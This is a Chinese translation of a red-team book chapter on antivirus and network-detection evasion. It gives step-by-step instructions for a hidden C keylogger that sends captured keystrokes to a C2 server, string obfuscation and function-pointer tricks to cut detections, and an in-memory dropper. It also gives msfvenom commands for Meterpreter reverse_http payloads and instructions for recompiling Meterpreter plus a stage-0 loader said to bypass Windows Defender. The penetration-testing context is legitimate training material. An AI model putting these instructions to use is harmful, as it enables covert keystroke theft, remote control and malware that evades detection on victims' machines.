# 第7章 四分卫突破——逃避杀毒软件和网络检测

> 译者：[@Snowming](https://github.com/Snowming04)


## 为红队行动编写工具
红队人员和渗透测试人员比较明显的区别之一就是红队人员能快速的适应并理解不同的防护。无论是理解低级语言（机器代码和汇编语言），编写`shellcode`，创建自定义的 C2 二进制可执行文件，还是修改代码来隐藏恶意程序，它们都是我们（红队）日常工作的一部分。我总是遇到不会编程的渗透测试人员，虽然这不是一项硬性要求，但是编程水平确实会决定他们专业成长的高度。 因此，我专门编写这一章节来给那些没有使用过偏向底层的低级语言编程的人一个良好的入门方向。

## 基础的键盘记录器
键盘记录器是所有渗透测试人员 / 红队人员的必备工具，本节将指导你制作通用的键盘记录器。 有时我们只想持续监控某个用户或获取其他凭据。 这可能是因为我们此时无法进行任何类型的横向移动或者权限提升，或者我们可能只想监视用户以便更好开展将来的入侵活动。 在这些情况下，我们通常喜欢放置一个持续在受害者系统上运行的键盘记录器并将键盘记录的数据发送到外网。 以下示例只是一个 `POC` ，本实验的目的是让你从这里了解基础知识和构建它们。 它全部用 C 语言（较底层的语言）来编写的原因是保持二进制文件相对较小、更好的系统控制、并且规避杀毒软件。 在之前的书中，我们使用 `Python` 编写了一个键盘记录器并使用 `py2exe` 对其进行编译以使其成为二进制文件，但这些很容易就被检测到。 让我们来看一个稍微复杂的例子。

### 设置你的环境
这是在 C 中编写和编译以生成 Windows 二进制文件并创建自定义键盘记录器所需的基本设置。
* 在一个虚拟机中安装 Windows 10
* 安装 `Visual Studio` ，以便你可以使用命令行编译器和使用 Vim 进行代码编辑

到目前为止，Windows API 编程的最佳学习资源是微软自己的开发者网络网站 [MSDN](http://www.msdn.microsoft.com)。 `MSDN` 是一个非常宝贵的资源，它详细说明了系统调用，数据类型和结构定义，并包含了许多示例。通过阅读微软出版社出版的《Windows Internals》书籍，可以更深入地了解 Windows 操作系统， 虽然这个项目中并不是特别需要这个。 对于学习 C 语言，有一本好书，C 语言的创始人之一参与了对此书的撰写，名为《C语言程序设计》（The C Programming Language），书的作者是 Kernighan 和 Ritchie。最后，可以阅读《Beej’s Guide to Network Programming》，有印刷版和[在线版](https://beej.us/guide/bgnet/)，这是 C 语言中关于的 socket 编程的一本很好的入门读物。

### 从源码编译
在这些实验中，将会有多个示例代码和例子。实验室将使用微软的 `Optimizing Compiler` 编译代码，该编译器随 `Visual Studio` 社区版本一起提供，并内置于 `Visual Studio` 开发者命令提示符（Visual Studio Developer Command Prompt）中。安装 VS 社区版本后，请通过 **工具（Tools）** --> **获取工具和功能（Get Tools and Features）** 安装 C++ 的组件 **通用 Windows 平台开发和桌面开发**。要编译示例源码，请打开开发者命令提示符的一个实例，然后切换到包含源代码文件的文件夹目录。 最后，运行命令 `cl sourcefile.c io.c`。这将生成一个与源文件同名的可执行文件。

编译器默认为 32 位，但此代码也可以用64位进行编译。要编译64位程序，请运行位于 `Visual Studio` 文件夹中的批处理程序。在命令提示符中，切换到目录 “ C:\Program Files (x86)\Microsoft Visual Studio\2017\Community\VC\Auxiliary\Build ” ，注意，这个目录可能会因为你的 Visual Studio 版本而改变（但是大致是以上目录）。然后，运行命令  `vcvarsall.bat x86_amd64`  ，这将设置 Microsoft 编译器编译 64 位的二进制文件而不是编译成 32 位的。现在，你可以通过运行  `cl path/to/code.c`（path 是源码文件的绝对路径）来编译代码。

### 示例框架
该项目的目标是创建一个键盘记录器，利用 C 语言和底层 Windows 功能来监视击键。该键盘记录器使用 `SetWindowsHookEx` 和 `LowLevelKeyboardProc` 函数 。 `SetWindowsHookEx` 允许在本地和全局上下文中设置各种类型的 Hook（钩子）。在这种情况下，`WH_KEYBOARD_LL`参数将用于提取底层键盘事件 。  `SetWindowsHookEx` 的函数原型看起来像这样（ http://bit.ly/2qBEzsC ）：

```c++
HHOOK WINAPI SetWindowsHookEx(
 _In_ int	idHook,
 _In_ HOOKPROC lpfn,
 _In_ HINSTANCE hMod,
 _In_ DWORD	dwThreadId
);
```

该函数创建了定义为整型的 hook 的 ID、指向函数的指针、句柄和线程 ID。前两个值是最重要的。你即将要安装的 hook 的 ID 数据类型是整型。Windows 会在功能页面上列出的可用 ID 。在我们的例子中，将使用 ID 13 或 `WH_KEYBOARD_LL` 。`HOOKPROC` 是一个指向回调函数的指针，每次被钩住的进程接收数据时都会调用该函数。这意味着每次按下一个键，都会调用 `HOOKPROC`。这是用于将击键写入文件的函数。`hMod` 是包含 `lpfn` 指针指向的函数的 DLL 的句柄。此值将设置为 NULL，因为函数与 `SetWindowsHookEx` 在同一进程中使用。dwThreadId 将设置为0以将回调与桌面上的所有线程相关联。最后，该函数返回一个整数，该整数将用于验证 hook 是否已正确设置或以其他方式退出。

第二部分是回调函数。回调函数将为此键盘记录器完成一系列繁重的工作。此函数将处理接收击键，将其转换为 ASCII 字符以及记录所有文件操作。 `LowLevelKeyBoardProc`（ http://bit.ly/2HomCYQ ）的原型如下所示：

```c
LRESULT CALLBACK LowLevelKeyboardProc(
 _In_ int	nCode,
 _In_ WPARAM wParam,
 _In_ LPARAM lParam
);
```

让我们回顾一下 `LowLevelKeyBoardProc` 所需的内容。该函数的参数是一个整数，告诉 Windows 如何解释该消息。这些参数中的两个是：
- wParam，它是消息的标识符
- lParam，它是指向 `KBDLLHOOKSTRUCT` 结构体的指针

 `wParam` 的值在功能页面中指定。还有一个页面描述了 `KBDLLHOOKSTRUCT` 的成员。`lParam` 的 `KBDLLHOOKSTRUCT` 的值称为 `vkCode` 或 `Virtual-Key Code`（ http://bit.ly/2EMAGpw ）。这是按下的键的代码，而不是实际的字母，因为字母可能会根据键盘的语言而有所不同。`vkCode` 需要稍后转换为相应的字母。现在不要着急把参数传递给我们的键盘回调函数，因为它们将在激活 hook 时由操作系统传递。

最后，挂钩键盘的初始架构代码如下所示：https://github.com/cheetz/ceylogger/blob/master/skeleton 

在查看框架代码时，需要注意的一些事项是，在回调函数中包含`pragma comment`（预处理指令），消息循环和返回 `CallNextHookEx` 行。`pragma comment` 是用于链接 User32 DLL 的编译器指令。 此 DLL 包含将要进行的大多数函数调用，因此需要进行链接。它也可以与编译器选项相关联。接下来，如果正在使用 `LowLevelKeyboardProc` 函数，则必须使用消息循环。 MSDN 声明，“此钩子在安装它的线程的上下文中调用。 通过向安装了钩子的线程发送消息来进行调用。因此，安装钩子的线程必须有一个消息循环。“[ http://bit.ly/2HomCYQ ]

返回 `CallNextHookEx` 是因为 MSDN 声明 “ 调用 `CallNextHookEx` 函数链接到下一个钩子过程是可选的，但强烈建议调用，否则已安装钩子的其他应用程序将不会收到钩子通知，因此可能会出现错误行为。所以你应该调用 `CallNextHookEx`，除非你一定要阻止其他应用程序看到通知。“[ http://bit.ly/2H0n68h ]

接下来，我们继续构建从文件句柄开始的回调函数的功能。在示例代码中，它将在 Windows 系统的 Temp 目录（C:\Windows\Temp）中创建名为 “log.txt” 的文件。 该文件配置了 `append` 参数，因为键盘记录器需要不断地将击键输出到文件。如果此临时文件夹中没有该文件，则会创建一个同名文件（log.txt）。

回到 `KBDLLHOOKSTRUCT`结构体，代码声明了一个 `KBDLLHOOKSTRUCT` 指针，然后将其分配给 `lParam`。这将允许访问每个按键的 `lParam` 内的参数。 然后代码检查 `wParam` 是否返回  `WM_KEYDOWN`，这将检查按键是否被按下。这样做是因为钩子会在按下和释放按键时触发。如果代码没有检查 `WM_KEYDOWN`，程序将每次写入两次击键。

检查按键被按下后，需要有一个 `switch`语句，用于检查 `lParam` 的 `vkCode`（虚拟键代码）是否有特殊键。某些键需要以不同的方式写入文件，例如返回键（Esc），控制键（Ctrl），移位（shfit），空格（Space）和制表键（Tab）。对于默认情况，代码需要将按键的 `vkCode` 转换为实际的字母。 执行此转换的简单方法是使用 `ToAscii` 函数。`ToAscii` 函数将包含 `vkCode`，一个 `ScanCode`，一个指向键盘状态数组的指针，一个指向将接收该字母的缓冲区的指针，以及一个 `uFlags` 的 `int` 值。`vkCode` 和 `ScanCode` 来自按键结构体，键盘状态是先前声明的字节数组，用于保存输出的缓冲区，`uFlags` 参数将设置为0。

检查是否释放了某些键是非常必要的，例如 `shift` 键。这可以通过编写另一个 `if 语句` 来检查 `WM_KEYUP`，然后使用 `switch语句` 来检查所需的键来完成。 最后，需要关闭该文件并返回 `CallNextHookEx`。回调函数如下所示：

* https://github.com/cheetz/ceylogger/blob/master/callback

此时，键盘记录器功能完全正常，但依旧有一些问题。第一个是运行程序会产生一个命令提示符的窗口，这使得程序运行非常明显，并且窗口没有任何提示输出是非常可疑的。 另一个问题是将文件放在运行该键盘记录器的同一台计算机上并不是很好。

通过使用 Windows 特定的 `WinMain` 函数入口替换标准 C 语言的 `Main` 函数入口，可以相对容易地修复有命令提示符窗口的问题。根据我的理解，之所以有效是因为 `WinMain` 是 Windows 上图形程序的入口。尽管操作系统期望你为程序创建窗口，但我们可以命令它不要创建任何窗口，因为我们有这个控件。最终，该程序只是在后台生成一个进程而不创建任何窗口。

该程序的网络编程是简单粗暴的。首先通过声明 `WSAData`（ http://bit.ly/2HAiVN7 ），启动 `winsock` ，清除提示结构体以及填写相关需求来初始化 Windows `socket` 函数。就我们的示例来说，代码将使用 `AF_UNSPEC` 用于 `IPV4` 和 `SOC_STREAM` 用于 TCP 连接，并使用 `getaddrinfo` 函数使用先前的需求填充 c2 结构体。在满足所有必需参数后，可以创建 `socket`。最后，通过 `socket_connect` 函数连接到 `socket`。

连接之后，`socket_sendfile` 函数将完成大部分工作。它使用 Windows 的 `CreateFile` 函数打开日志文件的句柄，然后使用 `GetFileSizeEx` 函数获取文件大小。获得文件大小后，代码将分配该大小的缓冲区，加上一个用于填充的缓冲区，然后将该文件读入该缓冲区。 最后，我们通过 `socket` 发送缓冲区的内容。

对于服务器端，可以在 C2 服务器的3490 端口上的启动 socat 侦听器，命令启动：

```
 socat：socat - TCP4-LISTEN:3490,fork
```

 一旦启动监听器并且键盘记录器正在运行，你应该看到来自受害者主机的所有命令每 10 分钟被推送到你的 C2 服务器。 可以在此处找到键盘记录器的初始完整版本1：

https://github.com/cheetz/ceylogger/tree/master/version1 。 

在编译 version_1.c 之前，请确保将 getaddrinfo 修改为当前的 C2 的IP 地址。编译代码：

```shell
cl version_1.c io.c 
```

应该提到的最后一个函数是 `thread_func` 函数。`thread_func` 调用函数 `get_time` 来获取当前系统的分钟。然后检查该值是否可被 5 整除，因为该工具每隔 5 分钟发送一次键盘记录文件。如果它可以被 5 整除，它会设置 `socket` 并尝试连接到 C2 服务器。如果连接成功，它将发送文件并运行清理本地文件。然后循环休眠 59 秒。需要睡眠功能的原因是因为这一切都在一个固定的循环中运行，这意味着该函数将在几秒钟内获取时间，初始化连接，完成连接和发送文件。如果没有 59 秒的休眠时间，该程序最终可能会在 1 分钟的时间间隔内发送文件几十次。休眠功能允许循环等待足够长的时间以便切换到下一分钟，因此每 5 分钟仅发送一次文件。

### 混淆
有数百种不同的方法来执行混淆。虽然本章不能全部一一讲述，但我想为你提供一些基本的技巧和思路来解决绕过杀毒软件的问题。

你可能已经知道，杀毒软件会查找特定的字符串。可用于绕过杀毒软件的最简单方法之一是创建一个简单的旋转密码并移动字符串的字符。在下面的代码中，有一个解密函数，可以将所有字符串移动 6 个字符（ROT6）。这会导致杀毒软件可能无法检测到特征码。在程序开始时，代码将调用解密函数来获取字符串数组并将它们返回到本来的形式。解密函数如下所示：

```c
int decrypt(const char* string, char result[])
   { 
        int key = 6;
        int len = strlen(string); 
        for(int n = 0; n < len;  n++)
        { 
            int symbol = string[n];
            int e_symbol = symbol - key; 
            result[n] = e_symbol; 
        }
       result[len] = ‘\0’;
       return 0;
   }
```

你可以在此处的程序版本2中看到此示例：https://github.com/cheetz/ceylogger/tree/master/version2 。

另一种可以用来逃避杀毒软件的方法是使用函数指针调用 User32.dll 中的函数，而不是直接调用函数。为此，首先编写一个函数定义，然后使用 Windows 系统的 `GetProcAddress` 函数找到要调用的函数的地址，最后将函数定义指针指定给从 `GetProcAddress` 接收的地址。可以在此处找到如何使用函数指针调用 `SetWindowsHookEx` 函数的示例：https://github.com/cheetz/ceylogger/blob/master/version3/version_3.c#L197-L241 。

该程序的第 3 版本将前一个示例中的字符串加密与使用指针调用函数的方法相结合。有趣的是，如果你将已编译的二进制文件提交到 VirusTotal（病毒检测网站），你将不再在导入部分中看到 User32.dll。在下面的图片中，左侧图像是版本1的检测结果，右侧图像是带有调用指针的版本3的检测结果 。



你可以在以下网址找到版本3的完整源代码：https://github.com/cheetz/ceylogger/tree/master/version3 。

为了了解你是否已成功避开杀毒软件，最佳选择是始终针对实时杀毒软件系统进行测试。在真实世界的入侵活动中，我不建议使用 VirusTotal 网站，因为你的病毒样本可能会发送给不同的杀毒软件厂商。然而，它非常适合测试或者学习。对于我们的 payload，以下是 VirusTotal 比较：

对于版本1，32位，21/66（21家检测出），触发杀毒软件：
* https://www.virustotal.com/#/file/4f7e3e32f50171fa527cd1e53d33cc08ab85e7a945cf0c0fcc978ea62a44a62d/detection
* http://bit.ly/2IXfuQh

对于版本3，32位，14/69（14家检测出），触发杀毒软件：
* https://www.virustotal.com/#/file/8032c4fe2a59571daa83b6e2db09ff2eba66fd299633b173b6e372fe762255b7/detection
* http://bit.ly/2IYyM7F

最后，如果我们将版本3编译为 64 位的 payload，我们得到 1/69（仅仅一家检测出）！：
* https://www.virustotal.com/#/file/e13d0e84fa8320e310537c7fdc4619170bfdb20214baaee13daad90a175c13c0/detection
* http://bit.ly/2JNcBmc

> 译者注：根据上面的链接，译者点进去看了每一个数据，但是发现数据都有所更新，所以把上面的内容修改为和链接到的内容一致的最新数据。但是下面的图片是书上的原图，所以是老的过期的数据。下面的图片是说，将版本3编译为 64 位的 payload，得到 0/66（无一家一家检测出）的结果，但是现在已经是 1/69，也就是 69 个杀软种有一个可以检测出病毒。



**实验：**

下一步我们还可以做什么呢？有无限种可能！可以做一些小的优化比如对 log.txt 内容进行模糊/加密，或者在程序启动后启动加密套接字，然后将获得击键权限直接写入该套接字。在接收方，服务器将重建数据流并将其写入文件。 这将阻止日志数据以纯文本形式显示，就像当前一样，并且还可以防止在硬盘中留下更多的文件痕迹。

如果你想做一些大的改进，那么你可以将可执行文件转换为 DLL，然后将 DLL 注入正在运行的进程。这样可以防止进程信息显示在任务管理器中。虽然有一些程序可以显示系统中所有当前加载的 DLL，但注入 DLL 会更加隐蔽。此外，有些程序可以反射性地从内存加载 DLL 而根本不在磁盘中留下痕迹（无文件），从而进一步降低了被取证的风险。

## 本书定制的挂钩病毒（Dropper）
Dropper（挂钩病毒）是红队工具包的重要组成部分，允许你在不把程序放在受害者计算机磁盘上的情况下运行你植入的程序。不将你的植入程序保存在磁盘上会降低它们被发现的风险，从而可以供你多次使用开展工作。在本章中，我们将介绍本书定制开发的一个 dropper，它可以导入 shellcode 或仅驻留在内存中的 DLL 。

在设计 dropper 和相应的服务器时，你需要记住一些事项。dropper 的目的是成为你的武器库中的一件用完就销毁的武器，这意味着你必须假设以当前形式使用它将触发进一步活动中的检测。

为了使后续的入侵活动更容易，你需要开发一个可以重复使用的标准服务器。在该示例中，你将看到一个基本的网络实现，它允许为不同的消息注册新的处理程序（handler）。虽然此示例仅包含 `LOAD_BLOB` 消息类型的处理程序，但你可以轻松添加新处理程序以扩展功能。这样就可以搭建良好的底层架构，因为你的所有通信都已标准化。

编写 dropper 或其他任何你希望快速找到并进行对其逆向的东西的时候，有个很重要步骤就是要清理你的文本字符串。当你第一次构建软件时，或许你运气好、调试消息显示成功，这使你无需手动单步执行调试器以查看为什么会出现问题。但是，如果特定的文本字符串在最终版本中被意外地遗留下来，将使病毒分析师很容易就可以逆向你的恶意软件。很多时候，反病毒会针对一个独一无二的特定字符串或一个常量值签名。在示例中，我使用 `InfoLog()` 和 `ErrorLog()`，它们的预处理器将在发布版本上编译。使用那些宏，通过检查是否定义了_DEBUG，将指示是否包含相关调用。

本书定制 Dropper 代码：https://github.com/cheetz/thpDropper.git

### Shellcode 与 DLL
在以下示例中，你可以让 dropper 加载完整的 DLL 或 shellcode。通常对于很多公共植入文件，你可以生成一个完整的 DLL，它将下载 DLL 然后反射 DLL。让你的 dropper 直接加载 DLL 将使你无需再进行更多的 API 调用，从而保持更好的隐蔽性。由于 header 被修改，某些植入文件可能无法正确加载。如果你的一个植入文件不能正常工作并且包含一种生成 shellcode 的方法，那么这应该可以解决你的问题。这是因为它们的自定义加载器通常用于修复 header 并从 DLL 加载它。

在网上也可以找到很多可以用的 shellcode，像 shell-storm.org 这样的网站会保存为特定目的而编写的 shellcode 存档，其中一些可能会为你的入侵活动派上用场。

### 运行服务器
构建服务器很简单。 在本书自定义的 Kali 镜像上，你需要运行以下命令：

对于首次编译：
* cd /opt/
* sudo apt-get install build-essential libssl-dev cmake git
* git clone https://github.com/cheetz/thpDropper.git
* cd thpDropper/thpd 
* mkdir build
* cd build 
* cmake .. 
* make

对于后续编译，你需要做的就是：
* cd /opt/thpd/build
* make

要运行服务器，在编译它之后，你需要输入：
* ./thpd [path to shellcode/DLL] [loadtype]

以下值当前对加载类型有效：

|0|Shellcode|这会将原始的汇编 shellcode 字节发送到客户端|
|------|------|------|
|1|DLL|这会发送一个普通的的 DLL 文件，以反射方式加载到客户端中|

虽然这些 payload（shellcode / DLL）可能是来自任何类型的 C2 工具（Metasploit/Meterpreter，Cobalt Strike 等），但是我们在示例中仅仅使用一个 Meterpreter payload。

生成一个 payload ：
* 对于 Shellcode payload ：
    * msfvenom -a x64 -p windows/x64/meterpreter/reverse_http LHOST=<Your_IP> LPORT=\<PORT\> EnableStageEncoding=True -f c
    * 注意，你必须使用 [msfvenom](http://www.ko0zh1.cc/2017/07/27/msfvenom%E8%AF%A6%E8%A7%A3/) 的输出，并且仅仅使用原始的汇编 shellcode（删除引号、新行和任何非 shellcode 的内容）。
    * 启动服务器：./thpd ./shellcode.txt 0 

* 对于 DLL payload ：
    * msfvenom -a x64 -p windows/x64/meterpreter/reverse_http LHOST=<Your_IP> LPORT=\<PORT\> EnableStageEncoding=True -f dll > msf.dll 
    * 启动服务器: ./thpd ./msf.dll 1
    
### 客户端
客户端以与服务器类似的方式运行，其中它为每种消息类型注册了一个处理程序（handler）。在启动时，它将尝试回调服务器，如果无法连接或一旦断开连接则重试 n 次，并发送消息要求加载 blob 对象。服务器将使用 `BLOB_PACKET` 进行响应，客户端将通过 `head`--> `msg` 字段识别并分派该 `BLOB_PACKET`。所有数据包必须在开始时定义 `HEAD_PACKET` 字段，否则网络处理程序将无法识别它，并将其丢弃。 使用 `BuildPacketAndSend()` 函数将正确设置头数据包，允许另一方解码它。

要构建客户端，你需要使用 `Visual Studio` 和 `Git` 。 首先将 Git 仓库（ https://github.com/cheetz/thpDropper.git ）克隆到一个文件夹中，然后在 `Visual Studio` 中打开 `thpDropper.sln`。确保为代码设置了正确的体系结构，如果你不需要任何调试信息，请将编译模式设置为`build for release`。完成此操作后，按 F7 键（编译快捷键），`Visual Studio` 会为你生成可执行文件。

### 配置客户端和服务器
在 `globals.cpp` 文件中可以查看大多数客户端的配置，你想要更改的三个主要配置设置是主机名、端口和数据包时间间隔。每个设置旁都有详细的注释，告诉你它们是什么。虽然你不需要更改数据包签名，但我还是得说一下：更改数据包签名将修改发送的每个数据包的前 2 个字节，用于标识它是服务器上的有效连接。如果你希望对 IP 和端口进行模糊处理，则可以编写代码以在访问它们时对其进行解密，并仅将加密版本存储在二进制文件中。

在服务器端，在 `main.cpp` 文件中，你可以修改服务器正在监听的端口。此配置在 main 函数中作为 `StartupNetworking()` 的唯一参数。如果你决定更改客户端中的数据包签名，则需要修改服务器以反映该数据包。这意味着在 `include/lib/networking.h` 文件中，`PACKET_SIGNATURE` 值要与客户端中的全局变量相匹配。

### 添加新的处理程序
设置网络代码库可以允许你轻松地添加新功能。为此，你需要使用客户端上的 `void name()` 原型或服务器上的 `void name(int conn)` 原型来创建一个回调函数。这些将被注册到你的消息类型的处理程序数组，并且在验证头数据包时调用它们。在这些函数中，你必须从 `recv` 缓冲区中读取包和相关数据。你需要调用 `recv()` 来指向数据包结构上的指针，以及该数据包的大小。这将提供关于需要从 `recv` 缓冲区中拉取多少数据的信息。在这个例子中，你将看到我们在处理程序中读取 `BLOB_PACKET` ，然后使用存储在 `packet.payloadLen` 中的值来指示我们需要进一步读取的字节数。相同的原理可以应用于其他的数据类型。如果要将包含文件路径的字符串发送到受害者计算机上的某个文件，你需要在处理程序的数据包中设置一个字段，用于描述字符串的长度，你将在发送完数据包之后发送该字符串。

### 进一步练习
虽然此代码库已经可以为你的工作提供一个可靠的基础，但你仍然可以通过多种方式自行改进。比较直接的思路是在传输层上加一个简单的加密层。你可能希望创建自己的 `send` 和 `recv` 包装器，用于在调用 `send` 和 `recv` 函数之前进行解密/加密。一种非常简单的实现方法是使用多字节异或密钥，虽然不是很安全，但至少会充分的改变你的消息，使之不易识别。另一个可能的思路是扩展 `LoadBlobHandler()` 函数，使之具有新的 `LOAD_TYPE`。使用这种新 LOAD_TYPE 的话，如果客户端以管理员身份运行，就会加载已签名的驱动程序。这可以通过使用 `CreateService()` 和 `StartService()` 这两个 Windows API 调用来完成。但是需要记住加载驱动程序需要它在磁盘上，这将触发文件系统的微型过滤器驱动程序来获取它。

## 重新编译 Metasploit/Meterpreter 以绕过杀毒软件和网络检测
我真的很想谈谈这个话题。但请注意，这将会有一些超前，所以你很可能在编译期间遇到一些问题。有很多很棒的工具，比如 Metasploit / Meterpreter，但是每个防病毒和网络入侵检测（NID）工具都为它开发了签名。我们可以尝试使用 `Shikata Ga Nai` 来混淆通过 HTTPS 传输的 payload，但也仅此而已。任何类型的混淆通常都会有一个检测的存根签名，杀毒软件会检查内存，查看特定某些位置的特殊字符串。网络流量可以通过 HTTPS 执行中间人检查。那么我们怎样才能继续使用我们喜欢的工具，同时绕过所有常见的保护措施呢？让我们以 Metasploit/Meterpreter 为例，看看我们如何绕过所有这些障碍。我们的目标是处理和解决二进制文件的杀毒软件签名（静态特征），内存运行中的特征和网络流量特征。

为了躲避所有这些检测方法，我们需要做一些事情。首先，我们需要修改 Meterpreter 的 payload，以确保不会在网络和内存中使用签名轻松检测到它们。其次，我们修改 `metsvc` 持久性模块以防止它标记反病毒。第三，我们用 `Clang` 编译部分 `metsrv`（实际的 Meterpreter payload），以防止它也标记反病毒签名。最后，我们将编写自己的 stage0 payload，下载并执行 `Meterpreter`，以绕过所有的反病毒。

使用 Clang 编译 `metsrv`（ `Meterpreter` 的网络服务包装器）并删除 metsrv/metsvc-server 引用：
* http://bit.ly/2H2kaUB

修改Payload，删除像 `Mimikatz`这样的字符串：
* http://bit.ly/2IS9Hvl

修改反射 DLL 注入以删除像 `ReflectiveLoader` 这样的字符串：
* http://bit.ly/2qyWfFK

许多网络产品会检测 Meterpreter 的0/1/2级加载器。除了混淆我们的 payload，我们还可以混淆实际的 shellcode。一个例子是遍历所有 Ruby 文件以获取不同的 payload 类型，并添加随机空指令滑行区（nop sled）以避免被检测到：
> 译者注：一个空指令雪橇(NOP sled)(也被称为空指令滑行区)是在 shellcode 之前的一段很长的指令序列。参考资料: [空指令雪橇](https://book.2cto.com/201406/43586.html)
* http://bit.ly/2JKUhdx

自定义 Stage0 payload：
* http://bit.ly/2ELYkm8

**实验：**

在本实验中，我们将采用所有我们修改过的 Metasploit/Meterpreter 代码，重新编译它，并确保它可以躲避基本的杀毒软件检测。

在开始之前，请查看搭建 Metasploit 的环境设置：
* https://github.com/rapid7/metasploit-payloads/tree/master/c/meterpreter 
* https://github.com/rapid7/metasploit-framework/wiki/Setting-Up-a-Metasploit-Development-Environment

Windows 要求：
* Visual Studio 2013（VS2013）—— 社区版就行。需要随安装时一并安装 C/C++。
* LLVM 32位 Windows版本(一定要在安装完 VS 之后再安装 LLVM 而且一定要安装 LLVM 工具链) —— 在[此地址](http://releases.llvm.org/download.html)下载 LLVM 6。
* [Windows 版本的 GNU make 工具程序](http://gnuwin32.sourceforge.net/packages/make.htm) —— 确保它位于你的路径中，或者从它的可用的已安装路径运行它。
* [Git-SCM](https://git-scm.com/)

### 如何在 Windows 上构建(build) Metasploit/Meterpreter：
首先拉取所有的 cyberspacekitten 仓库。这些文件已经针对你的实验进行了大量修改来作为 POC。然后我们需要下载框架和所有 payload：

* git clone https://github.com/cyberspacekittens/metasploit-framework
* cd metasploit-framework && git submodule init && git submodule update && cd ..
* git clone https://github.com/cyberspacekittens/metasploit-payloads
* cd metasploit-payloads && git submodule init && git submodule update && cd ..

虽然我们已经对仓库做了包括修改字符串、用 clang 编译和为 payload 添加随机空指令滑行区等这些更改，但请务必检查这两个仓库之间的 Metasploit 差异，以明确具体的更改内容。

编译 Metasploit/Meterpreter：<br>我们要做的第一件事情是重新编译我们更改后的 `metsvc` 和 `metsvc-server`。在 Visual Studio 2013 的开发者命令提示符 VS2013（Command Prompt for VS2013）中执行以下操作：
* 转到我们修改的 metsvc 的源码所在的文件夹：
    * cd metasploit-framework\external\source\metsvc\src
* 使用 make 进行编译：
    * “C:\Program Files (x86)\GnuWin32\bin\make.exe”

将我们新创建的二进制文件移到我们的 meterpreter 文件夹：
* copy metsvc.exe ........\data\meterpreter\
* copy metsvc-server.exe ........\data\meterpreter\

接下来，修改我们的 Meterpreter payload 并使用提供的 `.bat` 文件对其进行编译：
* cd metasploit-payloads\c\meterpreter
* make.bat

编译完所有内容后，将生成两个文件夹（x86 和 x64）。将所有已编译的 DLL 复制到 meterpreter 文件夹：
* copy metasploit-payloads\c\meterpreter\output\x86\* metasploit-framework\data\meterpreter
* copy metasploit-payloads\c\meterpreter\output\x64\* metasploit-framework\data\meterpreter

最后就是要放到服务器上了。我们现在可以将整个 metasploit-framework 文件夹放到你的 Kali 系统上并启动 HTTPS 反向处理程序(windows/x64/meterpreter/reverse_https)。

### 创建一个修改后的 Stage 0 Payload 
我们需要做的最后一件事是创建一个 Stage 0 payload 来让我们的初始可执行文件绕过所有杀毒软件检测。Meterpreter 中的 `stage 0` payload 是任何漏洞利用或 payload 的第一阶段。 
`stage 0` payload 是一段代码，它实现了一个简单的功能：以我们想要的方式（reverse_https，reverse_tcp，bind_tcp 等）进行连接或者监听，然后接收一个 metsrv.dll 文件。它随后将此文件加载到内存中，然后执行它。从本质上讲，任何 `Stage 0` payload 都只是一个美化的“下载并执行” payload，因为这就是所有的  Metasploit 运行的方式，所以在许多反病毒解决方案中都有针对 Metasploit 特定行为的高级签名和启发式分析——哪怕修改 shellcode 并添加花指令也仍然会因启发式分析而被标记为恶意。为了解决这个问题，我们编写了自己的 Stage 0，它执行相同的功能（在内存中下载和执行）：我们复制 Meterpreter 的 reverse_https payload 的下载调用，从服务器获取 metsrv.dll，然后将其注入到内存中并执行它。

> 译者注：
> 1. 在 metasploit 里面,payload 简单可以分为三类:`single`，`stager`,`stage`。
> - `single`：实现单一、完整功能的 payload,比如说 bind_tcp 这样的功能。
> - `stager` 和 `stage` 就像 web 入侵里面提到的小马和大马一样。
>
> 由于 exploit 环境的限制,可能不能一下子把 stage 传过去,需要先传一个 stager，stager 在攻击者和攻击目标之间建立网络连接，之后再把 stage 传过去进行下一步的行动。Reflective DLL Injection 就是作为一个 stage 存在。也即是说,你已经有了和攻击目标之间的连接会话,你可以传送数据到攻击目标上，之后 meterpreter 与 target 之间的交互就都是和发送过去的反射 dll 进行交互。<br>
> 参考资料: [Meterpreter 载荷执行原理分析](https://xz.aliyun.com/t/1709)
>
>2. 关于 `stage 0` 了解更多: [探寻 Metasploit Payload 模式背后的秘密](https://www.freebuf.com/articles/system/187312.html)

这里提供的 payload 具体示例具有一些更高级的功能。这样做是为了使它成为地址无关代码（PIC），并且不需要导入。这段代码是基于 thealpiste 的代码开发的
( https://github.com/thealpiste/C_ReverseHTTPS_Shellcode )。

提供的示例 payload 执行以下操作：
* 所有代码都在内存中定位 DLL 和函数以便执行;无需导入任何模块。这是通过手动为所有使用的函数[打桩](https://blog.csdn.net/wangwencong/article/details/8189778)，然后在内存中搜索它们来实现的。
* 使用 Wininet 将实际的 HTTPS 请求执行回配置的 Metasploit 处理程序。
* 接收 `metsrv.dll`，并执行 blob 数据。Metasploit 为这些文件提供服务的方式，意味着入口点是缓冲区的开头。

这个功能是与执行 msfvenom 中构建的 payload 完全相同的过程。然而，msfvenom 以一种容易被预测和检测到的方式将这些添加到模板可执行程序中，并且这种方式是不可配置的。因此，大多数杀毒软件一直可以识别到它们。但是，仅仅需要一点编码技巧，你就可以重新编写这个 payload 的功能。重写的 payload 很小，并且可以绕过当前存在的任何检测。在撰写本文时，已经测得此 payload 可以绕过所有杀毒软件，包括 Windows Defender。

创建 payload（完整的 payload 位于[这里](http://bit.ly/2ELYkm8)）：
* 在 VS 2013中，打开 metasploit-payloads\c\x64_defender_bypass\x64_defender_bypass.vcxproj
* 在 x64_defender_bypass 下有一个 settings.h 文件。打开此文件并将 HOST 和 PORT 信息修改为你的 Meterpreter 处理程序（handler）信息。
